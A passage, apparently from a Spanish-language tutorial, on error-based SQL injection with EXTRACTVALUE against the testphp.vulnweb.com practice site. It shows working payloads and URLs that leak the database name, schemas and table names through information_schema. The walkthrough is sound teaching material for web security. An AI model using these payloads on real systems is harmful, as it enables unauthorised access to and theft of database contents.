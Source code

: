 ```sql
AND EXTRACTVALUE('',CONCAT('=',database()))-- -
```

Basicamente muestra el nombre de la base de datos en uso, gracias a que ocasiono un error.
Entonces la URL queda asi:

```http://testphp.vulnweb.com/listproducts.php?cat=1 AND EXTRACTVALUE('',CONCAT('=',database()))-- -```

Y el resultado es:

![](/assets/img/UPDWP-SQLi/error1.png)

Vemos como la base de datos es ```acuart```

**Enumeracion de las bases de datos**

Ojo: en este tipo de inyeccion solo podemos sacar un columna, asi que usaremos ```LIMIT 0,1``` para solo obtener un dato.

Usaremos el payload:

```sql
AND EXTRACTVALUE('',CONCAT('=',(SELECT concat(schema_name) FROM information_schema.schemata LIMIT 0,1)))--
```
Y la URL queda
```
http://testphp.vulnweb.com/listproducts.php?cat=1%20AND%20EXTRACTVALUE(%27%27,CONCAT(%27=%27,(SELECT%20concat(schema_name)%20FROM%20information_schema.schemata%20LIMIT%200,1)))--
```

Y vemos que el resultado fue:

![](/assets/img/UPDWP-SQLi/error2.png)

Y nos dice que una base de datos es ```ìnformation_schema```

Si queremos iterar entre los resultados solo hay que cambiar la parte de ```LIMIT 0,1``` a ```LIMIT 1,1``` y asi sucesivamente

**Enumeracion de las tablas**

Una de las bases de datos existentes es ```acuart``` asi que ahora mostraremos las tablas con el payload:

```sql
AND EXTRACTVALUE('',CONCAT('=',(SELECT table_name FROM information_schema.tables WHERE table_schema="acuart" LIMIT 0,1)))-- -
```

Y vemos que una de las tablas es ```artist```
